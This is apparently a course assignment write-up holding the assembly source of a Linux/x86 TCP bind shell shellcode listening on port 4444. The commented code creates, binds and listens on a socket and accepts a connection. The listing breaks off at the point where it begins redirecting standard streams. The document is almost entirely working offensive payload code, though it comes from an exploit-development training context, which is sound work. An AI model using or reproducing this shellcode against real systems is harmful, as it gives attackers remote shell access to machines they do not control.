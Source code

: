 
## Complete Code ##

```c
; SLAE - Assignment #1: Shell Bind TCP Shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh


global _start

section .text

_start:

	; Create a socket

	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		; syscall socketcall
	int 0x80		; make the syscall socketcall(socket(2,1,0))

	; Bind to a port

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

	; Listen a connection

	mov [ecx+0x4], eax	; we use the stack (ebx is still in the stack and ecx+4 will set to 0)
	mov bl, 0x4		; syscall listen
	mov al, 0x66		
	mov ecx, esp
	int 0x80		; make the syscall socketcall(listen(sockfd,0))

	; Accept

	mov [ecx+0x8], eax	; we use the stack to put the second 0
	mov bl, 0x5		; syscall accept
	mov al, 0x66	
	mov ecx, esp
	int 0x80		; make the syscall socketcall(accept(sockfd,0,0))


	; Redirect stdin, stdout and stderr

	xchg ebx, eax		; we save eax
```
